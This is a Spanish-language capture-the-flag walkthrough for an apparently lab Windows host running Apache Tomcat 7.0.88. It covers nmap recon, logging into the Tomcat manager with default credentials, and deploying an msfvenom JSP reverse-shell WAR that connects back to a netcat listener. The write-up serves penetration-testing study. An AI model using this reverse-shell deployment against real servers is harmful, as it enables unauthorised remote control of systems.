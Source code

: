 ## Summary

Tags: #Windows #Tomcat #Msfvenom #ReverShell 

- IP -> 10.10.10.95
- Ports -> TCP (8080), UDP (idk)
- OS ->  Windows
- Services & Applications
    - 8080 -> Apache Tomcat 

## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

## Recon

```bash 
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn ❮Target IP❯  -oG allPorts       # Escaneo en la Capa 4 del modelo OSI
```

```bash
❯ nmap -sCV -p22,... ❮Target IP❯ -oN targeted
```

```bash
❯ whatweb ❮http://IP❯                  # Nos dara una breve descripcion del gestor de contenidos del puerto 80

	# Mirar la jQuery
	# Servidor Web
# Escaneamos el unico puerto que es el 8080
```

Ahora vamos a la pagina web a ver el contenido de Tomcat 
* Tomcat 7.0.88

Al momento de ir al '**/manager/html**' en la url de la web, nos pide un usuario y una passwd. Colocamos el típico 'admin: admin' pero nos niega el acceso, y nos dirige a la pagina en donde hay un usuario y passwd.  

Cerramos nuestro navegador e introducimos esas credenciales de prueba y logramos entrar al panel del manager. 

* En el panel de manager, encontramos una opción en donde podemos subir un archivo .war, por lo que hacemos lo siguiente:

Creamos nuestro archivo malicioso .war, lo subimos a la web y le damos deploy.
Para poder ejecutarlo, solo debemos de darle clic al 'reverse'
```bash 
❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=443 -f war -o reverse.war

	# p = Payload
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port 'Atacante'
	# f = Formato
	# o = Exportar como 
```

Antes de ejecutar el archivo nos ponemos en escucha
```bash
❯ nc -nlvp 443 
```

## User

## Root

Automáticamente somos
```bash 
'nt autorithy\system'
 
# Nos dirigimos a la ruta de
'C:\Users\Administrator\Desktop\flags'

# Ahi encontraremos un archivo que dice: 2 for the price of 1.txt

❯ type "2 for the price of 1.txt"    # Para poder leer archivos con espacios, debemos de colocarlos entre " " y asi obtenemos las 2 flag
```